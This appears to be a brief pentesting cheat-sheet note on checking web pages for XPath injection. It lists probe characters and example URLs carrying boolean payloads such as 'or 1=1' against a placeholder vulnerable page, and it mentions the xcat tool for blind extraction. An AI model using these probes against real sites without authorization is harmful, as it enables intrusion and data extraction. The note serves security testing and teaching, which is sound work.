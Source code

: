 # Simple checks for vulnerable XPATH

### Check if there is any behavioral difference in the responses
```
You could use ' (apostrophe) or , (Comma)
```

Apostrophe used as string terminator

Comma used to break intergers, althorugh any character would work

```
http://<website>/vulnpage.php?countryID=a'
```

### Blind bolean injection
You can check if there is a valid injection by checking with commands if there is no error messages. You can check whenether you get a valid response back or not depending on if it's TRUE or FALSE
```
## TRUE 
http://<website>/vulnpage.php?countryID=999999 or 1=1
http://<website>/vulnpage.php?countryID=999999 or "2" or "2"
## FALSE
http://<website>/vulnpage.php?countryID=999999 or 1=2
http://<website>/vulnpage.php?countryID=999999 or "1"="2"
```

# Enumerate Blind Bolean injections with xcat
You can see here how to use xcat (Tool for injection auto blind bolean to extract) 

                                                  [[Xcat]]
